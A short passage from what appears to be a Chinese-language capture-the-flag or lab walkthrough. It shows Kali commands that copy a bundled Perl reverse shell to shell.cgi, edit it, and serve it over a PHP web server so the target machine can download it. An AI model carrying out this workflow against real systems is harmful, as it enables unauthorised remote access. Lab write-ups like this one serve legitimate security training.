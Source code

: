 

```bash
┌──(kali㉿kali)-[~]
└─$ cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.cgi

┌──(kali㉿kali)-[~]
└─$ sudo vim shell.cgi
```



![image-20240225113931388](imgs/image-20240225113931388.png)

kali上架设服务器

```bash
┌──(kali㉿kali)-[~]
└─$ sudo php -S 0:80
sudo: unable to resolve host kali: Name or service not known
[Sat Feb 24 22:44:17 2024] PHP 8.2.5 Development Server (http://0:80) started
```

靶机中下载

![image-20240225114656187](imgs/image-20240225114656187.png)
